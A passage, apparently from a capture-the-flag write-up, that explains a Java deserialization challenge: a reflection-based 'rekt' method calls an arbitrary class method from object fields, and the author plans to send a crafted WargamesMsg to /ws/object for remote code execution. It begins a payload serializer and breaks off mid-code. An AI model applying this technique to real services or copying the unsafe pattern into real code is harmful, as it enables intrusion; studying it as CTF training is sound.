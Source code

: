 ```java
  private String data = null;

  private String className = null;

  private String methodName = null;

  public void rekt() throws Exception {
    try {
      Class<?> cl = Class.forName(this.className);
      Method method = cl.getMethod(this.methodName, new Class[] { String.class });
      method.invoke(null, new Object[] { this.data });
    } catch (Exception e) {
      e.printStackTrace();
    }
  }
```

This is Java code that people usually don't write, so here's the summary line by line:

1. `Class<?> cl = Class.forName(this.className);`
   1. Based on the `className` `String` field of this object, and gets the class with this name
2. `Method method = cl.getMethod(this.methodName, new Class[] { String.class });`
   1. Based on the `methodName` `String` field of this object, and gets the method with this name, in this class
3. `method.invoke(null, new Object[] { this.data });`
   1. Calls the method, with the `data` `String` field as the argument.
   2. In other words, calls `<className>.<methodName>(data)`

Not so complicated now :D

Now, to summarize what we have and know:

1. We can send a Java object through a POST request to `/ws/object`.
2. The object must be of the `WargamesMsg` class.
3. The `rekt` method of the object is called, which will, based on the `className`, `methodName`, `data` fields, call `<className>.<methodName>(data)`.

In order words, I just have to send a `WargamesMsg` object with the `className`, `methodName` and `data` set to some useful values, to gain RCE.

I found this code online that will serialize an object, then save the serialized bytes to a file:

```java
import java.io.ByteArrayOutputStream;
import java.io.FileOutputStream;
import java.io.IOException;
import java.io.ObjectOutputStream;
import java.io.Serializable;
import java.lang.reflect.Method;
import java.nio.file.Files;

import my.wargames.springboot.WargamesMsg;

public class Main {

    public static void main(String args[]) {
        WargamesMsg msg = new WargamesMsg();

        ByteArrayOutputStream bos = new ByteArrayOutputStream();
        ObjectOutputStream out = null;
        try {
            out = new ObjectOutputStream(bos);
            out.writeObject(msg);
            out.flush();

            byte[] msgBytes = bos.toByteArray();
            try (FileOutputStream fos = new FileOutputStream("payload.bin")) {
```